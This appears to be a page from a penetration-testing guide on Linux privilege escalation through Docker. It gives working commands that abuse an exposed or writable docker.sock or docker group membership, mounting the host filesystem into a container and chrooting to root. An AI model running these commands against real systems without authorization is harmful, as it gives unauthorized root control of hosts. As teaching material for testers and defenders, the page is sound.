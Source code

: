 ### **INTRODUCTION**

Docker is a tool designed to create, deploy, and run applications by using containers. Containers allow a developer to package up an application with all parts needed, such as libraries and dependencies.

### **DOCKER SHARED DIRECTORIES**

Shared directories (volume mounts) between the host system and Docker containers can be exploited if improperly configured. If sensitive files are shared with the container, they can be accessed and used for escalation.

1.  Check if the Docker socket is exposed.  
    `hackfast@ubuntu:/# ls -l /var/run/docker.sock`  

    ![](../../../img/Linux-Environment/92.png)

2.  Use the docker image to list all running containers.  
    `hackfast@ubuntu:/# docker image ls ps`  
    
    ![](../../../img/Linux-Environment/93.png)

3.  Start a new privileged container with access to the host filesystem.  
    `hackfast@ubuntu:/# docker -H unix:///var/run/docker.sock run --rm -it --privileged -v /:/host ubuntu chroot /host`  
    
    ![](../../../img/Linux-Environment/94.png)

### **DOCKER GROUP MEMBERSHIP**

If a user is a member of the docker group, they can effectively run commands as root because Docker daemon commands have root privileges.

1.  Verify if the current user is in the docker group.  
    `hackfast@ubuntu:~$ id`  
    
    ![](../../../img/Linux-Environment/95.png)
    
2.  Use Docker to start a container with access to the host filesystem.  
    `hackfast@ubuntu:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt /bin/bash`  
    
    ![](../../../img/Linux-Environment/96.png)
    

### **WRITABLE DOCKER SOCKET**

A writable Docker socket (/var/run/docker.sock) can allow users to run Docker commands as root, leading to full control over the host system.

1.  Verify if the Docker socket is writable.  
    `hackfast@ubuntu:~$ ls -l /var/run/docker.sock`  
    
    ![](../../../img/Linux-Environment/97.png)
    
2.  Use the writable Docker socket to start a new container with access to the host filesystem.  
    `hackfast@ubuntu:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt /bin/bash`  
    
    ![](../../../img/Linux-Environment/98.png)